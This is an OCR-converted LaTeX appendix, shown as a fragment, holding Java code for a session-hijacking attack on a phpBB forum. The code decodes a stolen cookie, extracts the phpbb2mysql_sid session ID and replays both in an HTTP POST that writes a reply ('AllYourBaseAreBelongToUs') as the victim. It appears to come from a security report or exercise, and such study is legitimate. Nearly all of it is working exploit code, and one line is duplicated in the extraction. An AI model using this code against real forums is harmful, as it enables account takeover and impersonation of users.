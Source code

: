 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
	  // Remove HTML encoding
      String decodedCookie = URLDecoder.decode(stolenCookie); 
        
      String decodedCookie = URLDecoder.decode(stolenCookie); 
      
      System.out.println(decodedCookie);
      
      // Extract session id
      String phpbb2mysql = "phpbb2mysql_sid=";
      int sidIndex = decodedCookie.indexOf("phpbb2mysql_sid=") + phpbb2mysql.length();
      String sid = decodedCookie.substring(sidIndex, decodedCookie.length()); 
      
      System.out.println(sid);
      urlConn.addRequestProperty("Cookie", decodedCookie);
      //HTTP Post Data which includes the information to be sent to the server.
      String subject = "AYBABTU";
      String message = "AllYourBaseAreBelongToUs";
      String topicNumber = "1";
      
      // Add response data
      String data="subject=" + subject;
      data += "&message=" + message;
      data += "&mode=reply";
      
      // Append session ID from the cookie
      data += "&sid=" + sid;
      data += "&t=" + topicNumber + "&post=Submit";

      // DoOutput flag of URL Connection should be set to true
      // to send HTTP POST message.
      urlConn.setDoOutput(true);

      // OutputStreamWriter is used to write the HTTP POST data
      // to the url connection.
      OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
      wr.write(data);
      wr.flush();

      // HttpURLConnection a subclass of URLConnection is returned by
      // url.openConnection() since the url is an http request.
      if (urlConn instanceof HttpURLConnection) {

             HttpURLConnection httpConn = (HttpURLConnection) urlConn;
             // Contacts the web server and gets the status code from
             // HTTP Response message.
             responseCode = httpConn.getResponseCode();
             System.out.println("Response Code = " + responseCode);
             // HTTP status code HTTP_OK means the response was
             // received sucessfully.
             if (responseCode == HttpURLConnection.HTTP_OK) {
                     // Get the input stream from url connection object.
                     responseIn = urlConn.getInputStream();
                     // Create an instance for BufferedReader
                     // to read the response line by line.
                     BufferedReader buf_inp = new BufferedReader(
                                     new InputStreamReader(responseIn));
                     String inputLine;
                     while((inputLine = buf_inp.readLine())!=null) {
                             System.out.println(inputLine);
                     }
             }
      }
    } catch (MalformedURLException e) {
               e.printStackTrace();
    }
  }
}


\end{lstlisting}
\end{appendices}
\end{document}
